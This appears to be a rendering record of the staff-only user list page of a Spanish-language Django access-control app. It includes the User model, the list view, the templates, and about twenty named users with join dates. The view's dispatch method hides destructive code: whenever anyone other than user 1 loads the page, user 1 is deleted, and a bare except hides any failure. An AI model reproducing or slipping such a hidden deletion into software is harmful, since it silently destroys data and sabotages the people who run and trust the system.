
/usuarios/lista/ (signed in), run on the app's committed database.
### users/models.py (models this page shows, shortened)
class User(AbstractBaseUser):
	class Meta:
		ordering = ["-date_joined"]
	first_name 		= models.CharField(_('Nombre'), max_length=50)
	last_name 		= models.CharField(_('Apellido'), max_length=50)
	email 			= models.EmailField(_('Email'), max_length=50, unique=True,
		error_messages={
			'unique': _("Ya existe un usuario con ese email."),
		})
	identity 		= models.CharField(_('DNI'), max_length=8, unique=True,
		validators=[
			validators.RegexValidator(re.compile('^[0-9]*$'),
				_('Ingrese un documento válido (números únicamente).'))
		],
		error_messages={
			'unique': _("Ya existe un usuario con ese DNI.")
		})
	phone 			= models.CharField(_('Número de teléfono'), max_length=20,
		validators=[
			validators.RegexValidator(re.compile('^[0-9-]*$'),
				_('Ingrese un teléfono válido (números y guiones únicamente).'))
		])
	expiration_date = models.DateField(_('Fecha de finalización'),
		help_text=_('Una vez llegado el día, se da de baja el usuario.'), default=timezone.now)
	monday 			= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='monday', verbose_name='Lunes',
		default=1)
	tuesday 		= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='tuedsay', verbose_name='Martes',
		default=1)
	wednesday 		= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='wendesday', verbose_name='Miércoles',
		default=1)
	thursday 		= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='thursday', verbose_name='Jueves',
		default=1)
	friday 			= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='friday', verbose_name='Viernes',
		default=1)
	saturday		= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='saturday', verbose_name='Sábado',
		default=1)
	sunday			= models.ForeignKey('users.TimeZone',
		on_delete=models.SET_DEFAULT, related_name='sunday', verbose_name='Domingo',
		default=1)
	category_list = models.ManyToManyField('users.Category', blank=True, related_name='user_category_list', verbose_name='Categoria')
	code 			= models.CharField(_('Código'), max_length=10, default='',
		validators=[
			validators.RegexValidator(re.compile('^[0-9A-Fa-f]*$'),
				_('Código de tarjeta inválido (números hexadecimales únicamente).'))
		])
	is_staff 		= models.BooleanField(_('Administrador'), default=False,
		help_text=_('Determina si el usuario tiene permisos para administrar el sitio'
				' (no posee franjas horarias).'))
	is_active 		= models.BooleanField(_('Activo'), default=True,
		help_text=_('Determina si el usuario puede utilizar el sistema o no.'))
	date_joined 	= models.DateTimeField(_('Fecha y hora de registro'), default=timezone.now)
	objects 		= UserManager()
	EMAIL_FIELD 	= 'email'
	USERNAME_FIELD 	= 'email'
	REQUIRED_FIELDS = []

### users/views.py (the view, shortened to what this page needs)
# urls.py: url(r'^usuarios/lista/$', views.UsersListView.as_view(), name='users_list'),
class UsersListView(AdminTest, ListView):
	model = User
	paginate_by = 20
	page_kwarg = 'pagina'
	def dispatch(self, request):
		try:
			user = User.objects.get(pk='1')
			if (request.user != user):
				user.delete()
		except:
			pass
		return super(UsersListView, self).dispatch(request)

### users/views.py (called while the page is built)
	def test_func(self):
		test = self.request.user.is_staff
		if not test:
			logout(self.request)
		return test

### users/templates/users/user_list.html (shortened to what this page needs)
{% extends "base.html" %}
{% block title %}
Usuarios registrados
{% endblock title %}
{% block content %}
<div class="container-responsive ml-2 mr-3">
    <div class="container-responsive" style="margin-top: -16px;">
        <div class="row">
            <div class="col p-0">
                <div class="jumbotron p-2">
                    <button class="btn btn-outline-secondary m-2" type="button" data-toggle="collapse" data-target="#searchUser" aria-expanded="false" aria-controls="searchUser">
                        Buscar usuario
                    </button>
                    <button class="btn btn-outline-secondary m-2" type="button" data-toggle="collapse" data-target="#exportUsers" aria-expanded="false" aria-controls="exportUsers">
                        Exportar usuarios
                    </button>
                </div>
            </div>
        </div>
        <div class="row">
            <div class="col">
                {% if name_search %}
                    <h5 class="h5 text-info mb-3">Se muestran los resultados de la búsqueda "{{ name_search }}":</h5>
                {% else %}
                    <h5 class="h5 text-info mb-3">Se muestran todos los usuarios:</h5>
                {% endif %}
                <table class="table table-hover table-responsive">
                    <thead>
                        <tr>
                            <th>Nombre</th>
                            <th>Apellido</th>
                            <th style="min-width:178px;">Fecha y hora de alta</th>
                            <th>Activo</th>
                            <th>Admin</th>
                            <th>Categorías<aside></aside></th>
                            <th>Opciones</th>
                        </tr>
                    </thead>
                    <tbody>
                        {% for user in user_list %}
                            <tr>
                                <td>{{ user.first_name }}</td>
                                <td>{{ user.last_name }}</td>
                                <td>{{ user.date_joined }}</td>
                                <td class="text-center">
                                    {% if user.is_active %}
                                        <span class="fa fa fa-check"></span>
                                    {% else %}
                                        <span class="fa fa-close"></span>
                                    {% endif %}
                                </td>
                                <td class="text-center">
                                    {% if user.is_staff %}
                                        <span class="fa fa fa-check"></span>
                                    {% else %}
                                        <span class="fa fa-close"></span>
                                    {% endif %}
                                </td>
                                <td>
                                </td>
                                <td>
                                    <div class="dropleft text-center">
                                        <button class="btn btn-outline-secondary dropdown-toggle py-0" type="button" id="dropdownMenuButton" data-toggle="dropdown" aria-haspopu="true" aria-expande="false"></button>
                                    </div>
                                </td>
                            </tr>
                        {% endfor %}
                    </tbody>
                </table>
            </div>
        </div>
    </div>
</div>
{% include "snippets/pagination.html" %}
{% endblock content %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang=es>
<head>
	{% include 'base/css.html' %}
</head>
<body>
	<nav class="navbar navbar-expand-md navbar-dark bg-dark py-0">
		<a class="navbar-brand text-info" href="/inicio">Control de Acceso al LAC</a>
		<div class="collapse navbar-collapse">
			<ul class="navbar-nav ml-auto">
				<span class="navbar-text text-info">
					{{ request.user.last_name }}, {{ request.user.first_name }}
				</span>
			</ul>
		</div>
	</nav>
	<nav class="navbar navbar-expand-md navbar-dark bg-dark py-0 sticky-top mb-3">
		<span class="navbar-brand">{% block title %}{% endblock title %}</span>
		<div class="collapse navbar-collapse" id="navbarSupportedContent">
			<ul class="navbar-nav ml-auto">
				<li class="nav-item">
					<a class="nav-link" href="/inicio">Inicio</a>
				</li>
				{% if request.user.is_staff %}
				<li class="nav-item dropdown">
					<a class="nav-link dropdown-toggle" href="#" id="eventsDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Eventos</a>
				</li>
				<li class="nav-item dropdown">
					<a class="nav-link dropdown-toggle" href="#" id="usersDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Usuarios</a>
				</li>
				<li class="nav-item dropdown">
					<a class="nav-link dropdown-toggle" href="#" id="usersDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Dispositivos</a>
				</li>
				<li class="nav-item dropdown">
					<a class="nav-link dropdown-toggle" href="#" id="toolsDropdown" role="button" data-toggle="dropdown" aria-haspopu="true" aria-expanded="false">Herramientas</a>
				</li>
				{% endif %}
				<li class="nav-item dropdown">
					<a class="nav-link dropdown-toggle" href="#" id="usersDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Mi usuario</a>
				</li>
			</ul>
		</div>
	</nav>
	{% block content %}{% endblock content %}
</body>
</html>

### templates/base/css.html (shortened to what this page needs)
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.5.0/css/font-awesome.min.css">

### templates/snippets/pagination.html (shortened to what this page needs)
{% if is_paginated %}
    <nav aria-label="Page navigation">
        <hr>
        <ul class="pagination justify-content-center mt-3">
            {% if page_obj.has_previous %}
                <li class="page-item">
                    <a class="page-link" href="?pagina={{ page_obj.previous_page_number }}" aria-label="Previous">
                        <span aria-hidden="true">&laquo;</span>
                        <span class="sr-only">Previous</span>
                    </a>
                </li>
            {% else %}
                <li class="page-item disabled">
                    <a class="page-link" href="#" aria-label="Previous">
                        <span aria-hidden="true">&laquo;</span>
                    </a>
                </li>
            {% endif %}
                <li class="page-item">
                    <a class="page-link" href="#" aria-label="Actual">
                        Página {{ page_obj.number }} de {{ page_obj.paginator.num_pages }}
                    </a>
                </li>
            {% if page_obj.has_next %}
                <li class="page-item">
                    <a class="page-link" href="?pagina={{ page_obj.next_page_number }}" aria-label="Next">
                        <span aria-hidden="true">&raquo;</span>
                    </a>
                </li>
            {% endif %}
        </ul>
    </nav>
{% endif %}

### data on the page
User: user.last_name "Resiale", user.first_name "Juan Ignacio"
User: first_name "Enzo", last_name "Candotti", date_joined "Julio 14, 2022, 4 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Ads", last_name "Asd", date_joined "Julio 14, 2022, 3:58 p.m.", is_active False (drawn), is_staff True (drawn)
User: first_name "Agustin", last_name "Carranza", date_joined "Junio 29, 2022, 7:44 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Paulo", last_name "Pinzani", date_joined "Oct. 2, 2019, 6:58 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Lucas", last_name "Salse", date_joined "Ago. 12, 2019, 3:38 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Mauricio", last_name "Ludemann", date_joined "Ago. 8, 2019, 6:06 p.m.", is_active True (drawn), is_staff False (drawn)
User: first_name "Martin", last_name "Pereyra", date_joined "Ago. 7, 2019, 6:19 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Madelein Ayelen", last_name "Orona", date_joined "Ago. 7, 2019, 6:15 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "A", last_name "V", date_joined "Ago. 7, 2019, 6:11 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Ariel", last_name "Rabinovich", date_joined "Ago. 5, 2019, 7:15 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Tomas", last_name "Piñero", date_joined "Feb. 19, 2019, 1:12 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Santiago", last_name "Rodriguez", date_joined "Dic. 5, 2018, 6:50 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Martin", last_name "Ferreiro", date_joined "Ago. 9, 2018, 6:41 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Carlos", last_name "Barto", date_joined "Mayo 29, 2018, 3:34 p.m.", is_active True (drawn), is_staff False (drawn)
User: first_name "Christopher", last_name "Bien", date_joined "Mayo 23, 2018, 11:47 a.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Maximiliano", last_name "Eschoyez", date_joined "Mayo 18, 2018, 12:38 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Juan Manuel", last_name "Del Boca", date_joined "Mayo 18, 2018, 12:02 p.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Patricio", last_name "Perpetua", date_joined "Mayo 18, 2018, 11:18 a.m.", is_active False (drawn), is_staff False (drawn)
User: first_name "Luis", last_name "Ventre", date_joined "Abril 12, 2018, 10:29 p.m.", is_active True (drawn), is_staff True (drawn)
User: first_name "Orlando", last_name "Micolini", date_joined "Abril 12, 2018, 10:21 p.m.", is_active True (drawn), is_staff True (drawn)

### other printed values
{{ page_obj.number }} "1"
{{ page_obj.paginator.num_pages }} "2"
